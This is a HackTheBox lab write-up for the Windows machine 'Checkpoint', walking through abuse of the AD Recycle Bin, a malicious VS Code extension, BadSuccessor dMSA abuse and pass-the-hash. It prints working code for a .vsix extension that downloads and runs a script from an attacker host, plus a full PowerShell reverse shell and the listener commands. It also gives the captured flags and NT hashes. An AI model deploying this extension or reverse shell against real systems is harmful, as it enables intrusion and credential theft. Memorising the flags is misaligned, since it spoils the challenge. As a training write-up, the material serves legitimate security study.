# HackTheBox — Checkpoint


| Field | Value |
|-------|-------|
| **OS** | Windows |
| **Difficulty** | Medium |
| **Release Date** | 14/06/2026 |
| **Written by** | Dhia Eddine Saïd (BALD) |

---

## Attack Path Overview

```
alex.turner (given creds)
    │
    │ GenericWrite → AD Recycle Bin
    ▼
mark.davies (restored, same password)
    │
    │ Write access to DevDrop SMB share
    ▼
Malicious .vsix uploaded → VS Code auto-installs it
    │
    │ activate() → downloads shell.ps1 → executes
    ▼
ryan.brooks (reverse shell, user flag ✓)
    │
    │ GenericWrite over svc_deploy
    │ BadSuccessor: create dMSA svcdmsa → inherits svc_deploy hash
    ▼
svc_deploy (WinRM via NT hash)
    │
    │ Read access to VMBackups share
    │ Download Windows Server 2019-Snapshot1.vmem (2 GB)
    ▼
Volatility3 hashdump → Administrator NT hash
    │
    │ Pass-the-Hash via evil-winrm
    ▼
Administrator (root flag ✓)
```

---

## 1 — Reconnaissance

### 1.1 Port Scan

We begin with a full TCP port scan to identify exposed services on the target.

```bash
nmap -T4 -p- -sV 10.129.x.x
```



The results reveal a classic Windows Domain Controller layout:

| Port | Service |
|------|---------|
| 53 | DNS |
| 88 | Kerberos |
| 135 | MSRPC |
| 139 | NetBIOS |
| 389/636/3268/3269 | LDAP/LDAPS |
| 445 | SMB |
| 5985 | WinRM |

### 1.2 Host Configuration

We add the target to `/etc/hosts` for hostname resolution.

```bash
echo "10.129.x.x dc01.checkpoint.htb checkpoint.htb" >> /etc/hosts
```



We also sync our clock to avoid Kerberos skew issues:

```bash
sudo ntpsec-ntpdate -u 10.129.x.x
# or
sudo date -s "$(date -d '+7 hours')"
```



---

## 2 — Enumeration

### 2.1 SMB Share Enumeration

We use the provided starting credentials `alex.turner : Checkpoint2024!` to enumerate SMB shares.

```bash
netexec smb 10.129.x.x -u 'alex.turner' -p 'Checkpoint2024!' --shares
```




A notable share stands out: **DevDrop** — described as a *VS Code Extension Drop*, hinting at an automated extension installation mechanism running on the DC.

### 2.2 Domain Information

We gather more information about the domain environment.




---

## 3 — AD Recycle Bin — Restoring mark.davies

### 3.1 Finding the Deleted Object

`alex.turner` has **GenericWrite** over a deleted AD object: `mark.davies`. This object was removed and sits in the AD Recycle Bin. We use **bloodyAD** to restore it.

```bash
# Install bloodyAD
sudo git clone https://github.com/CravateRouge/bloodyAD /opt/bloodyAD
pip install bloodyad --break-system-packages
```



### 3.2 Restoring the Account

```bash
python3 /opt/bloodyAD/bloodyAD.py \
  -d checkpoint.htb \
  -u alex.turner \
  -p 'Checkpoint2024!' \
  -H dc01.checkpoint.htb \
  -i 10.129.x.x \
  set restore mark.davies
```



Restored accounts retain their original password — `mark.davies : Checkpoint2024!`

### 3.3 Verifying Write Access to DevDrop

```bash
smbclient //10.129.x.x/DevDrop \
  -U 'checkpoint.htb/mark.davies%Checkpoint2024!' \
  -c 'put /etc/hosts test.txt; ls; rm test.txt'
```




`mark.davies` has **WRITE** access to the DevDrop share. ✅

---

## 4 — Initial Access — Malicious VS Code Extension

### 4.1 The Attack Concept

Someone on DC01 is running **VS Code 1.118.0** and auto-installing `.vsix` extensions dropped into the DevDrop share. We craft a malicious extension whose `activate()` function downloads and executes a PowerShell reverse shell.

### 4.2 Building the Extension

```bash
mkdir -p /tmp/mal-ext/out

cat > /tmp/mal-ext/package.json << 'EOF'
{
  "name": "mal-ext",
  "displayName": "DevTools Helper",
  "version": "1.0.0",
  "engines": { "vscode": "^1.118.0" },
  "main": "./out/extension.js",
  "activationEvents": ["*"],
  "contributes": {}
}
EOF

cat > /tmp/mal-ext/out/extension.js << 'EOF'
const { execSync } = require('child_process');
function activate() {
  execSync('powershell -c "IEX(New-Object Net.WebClient).DownloadString(\'http://KALI_IP/shell.ps1\')"');
}
module.exports = { activate, deactivate: () => {} };
EOF

cat > /tmp/shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient("KALI_IP", 4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
  $sendback = (iex $data 2>&1 | Out-String)
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback + "PS " + (pwd).Path + "> ")
  $stream.Write($sendbyte, 0, $sendbyte.Length)
  $stream.Flush()
}
$client.Close()
EOF
```

### 4.3 Packaging the Extension

```bash
sudo npm install -g @vscode/vsce
cd /tmp/mal-ext && vsce package --allow-missing-repository
```




### 4.4 Setting Up Listeners and Uploading

**Terminal 1 — HTTP server to serve shell.ps1:**
```bash
cd /tmp && python3 -m http.server 80
```



**Terminal 2 — Netcat listener:**
```bash
nc -lvnp 4444
```



**Terminal 3 — Upload the malicious extension:**
```bash
smbclient //10.129.x.x/DevDrop \
  -U "checkpoint.htb/mark.davies%Checkpoint2024!" \
  -c 'put /tmp/mal-ext/mal-ext-1.0.0.vsix mal-ext-1.0.0.vsix'
```




### 4.5 Shell as ryan.brooks

After approximately 2 minutes, the VS Code backend activates the extension and executes our reverse shell.



```
checkpoint\ryan.brooks
```

### 4.6 User Flag

```powershell
cat C:\Users\ryan.brooks\Desktop\user.txt
```



> **user.txt**: `3c26ebd34fcce930a2aa6ca37c625e42`

---

## 5 — Privilege Escalation — BadSuccessor → Administrator

### 5.1 Kerberos TGT via Rubeus

`ryan.brooks` has **GenericWrite** over `svc_deploy`. We leverage the **BadSuccessor** attack (2025) to create a delegated Managed Service Account (dMSA) that inherits `svc_deploy`'s Kerberos keys.

First, we download Rubeus to obtain a delegatable TGT:

```powershell
(New-Object Net.WebClient).DownloadFile("http://KALI_IP/Rubeus.exe","C:\Windows\Temp\Rubeus.exe")
C:\Windows\Temp\Rubeus.exe tgtdeleg /nowrap
```



### 5.2 Convert Ticket on Kali

```bash
echo "<BASE64_TICKET>" | base64 -d > /tmp/ryan.kirbi
impacket-ticketConverter /tmp/ryan.kirbi /tmp/ryan.ccache
export KRB5CCNAME=/tmp/ryan.ccache
```

### 5.3 BadSuccessor Attack — Create dMSA

```bash
python3 /opt/bloodyAD/bloodyAD.py \
  -d checkpoint.htb \
  -u ryan.brooks \
  -k \
  -H dc01.checkpoint.htb \
  -i 10.129.x.x \
  add badSuccessor svcdmsa \
  -t "CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb"
```



This creates a dMSA `svcdmsa$` that inherits `svc_deploy`'s RC4 hash: `e16081eb077aca74bdbf8af12af43ac9`

### 5.4 WinRM as svc_deploy

```bash
evil-winrm \
  -i 10.129.x.x \
  -u svc_deploy \
  -H e16081eb077aca74bdbf8af12af43ac9
```



### 5.5 Downloading the VM Memory Dump

`svc_deploy` has read access to the **VMBackups** share containing a VM memory snapshot.

```bash
impacket-smbclient \
  -hashes ':e16081eb077aca74bdbf8af12af43ac9' \
  'checkpoint.htb/svc_deploy@dc01.checkpoint.htb'
```

Inside smbclient:
```
use VMBackups
cd NightlyBackup_2024-11-01
cd memory forensics
lcd /tmp/vmdump
get Windows Server 2019-Snapshot1.vmem
```



### 5.6 Extracting Hashes with Volatility3

```bash
pip install volatility3 --break-system-packages -q
vol -f "/tmp/vmdump/Windows Server 2019-Snapshot1.vmem" windows.hashdump.Hashdump
```

| User | RID | NT Hash |
|------|-----|---------|
| Administrator | 500 | `f29e9c014295b9b32139b09a2790be3b` |
| Guest | 501 | `31d6cfe0d16ae931b73c59d7e0c089c0` |

### 5.7 Pass-the-Hash → Administrator

```bash
evil-winrm \
  -i 10.129.x.x \
  -u Administrator \
  -H f29e9c014295b9b32139b09a2790be3b
```



### 5.8 Root Flag

```powershell
cat C:\Users\max.palmer\Desktop\root.txt
```



> **root.txt**: `57ded62a7c7bc90e46b54608e72b2e8c`

---

## 6 — Proof



---

## 7 — Flags Summary

| Flag | Value |
|------|-------|
| **user.txt** | `3c26ebd34fcce930a2aa6ca37c625e42` |
| **root.txt** | `57ded62a7c7bc90e46b54608e72b2e8c` |

---

## 8 — Key Techniques

| Technique | Description |
|-----------|-------------|
| **AD Recycle Bin Abuse** | Restoring deleted AD objects using GenericWrite permissions |
| **Malicious VS Code Extension** | Crafting a `.vsix` package with a reverse shell payload |
| **BadSuccessor (2025)** | Creating a dMSA that inherits target account's Kerberos keys |
| **Pass-the-Hash** | Authenticating with NT hash without plaintext password |
| **Memory Forensics** | Extracting credentials from VM memory snapshot using Volatility3 |

---

*Written by **Dhia Eddine Saïd (BALD)***
